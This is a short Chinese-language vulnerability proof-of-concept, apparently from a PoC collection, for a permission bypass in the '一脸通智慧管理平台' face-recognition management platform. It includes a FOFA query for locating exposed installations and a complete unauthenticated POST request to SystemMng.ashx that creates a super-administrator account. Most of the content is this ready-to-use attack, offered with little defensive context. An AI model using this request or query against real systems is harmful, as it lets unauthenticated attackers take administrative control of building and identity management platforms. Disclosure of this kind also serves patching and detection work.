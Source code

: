 # 一脸通智慧管理平台权限绕过漏洞

## 1.漏洞描述

一脸通智慧管理平台1.0.55.0.0.1及其以下版本SystemMng.ashx接口处存在权限绕过漏洞，导致特权管理不当，未经身份认证的攻击者可以通过此漏洞创建超级管理员账户。

## 2.搜索语法

```plain
fofa：title="欢迎使用脸爱云 一脸通智慧管理平台"
```

## 3.漏洞复现

```plain
POST /SystemMng.ashx HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en
Content-Length: 174

operatorName=test123456&operatorPwd=123456&operpassword=123456&operatorRole=00&visible_jh=%E8%AF%B7%E9%80%89%E6%8B%A9&visible_dorm=%E8%AF%B7%E9%80%89%E6%8B%A9&funcName=addOperators
```

![image-20240615204131021](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\image-20240615204131021.png)

成功创建账号，登陆后台可以看到自己创建的账号拥有管理员权限

![f35d6bd762f1c767b1d0f9109e27643](D:\py\POC\一脸通智慧管理平台权限绕过漏洞\f35d6bd762f1c767b1d0f9109e27643.png)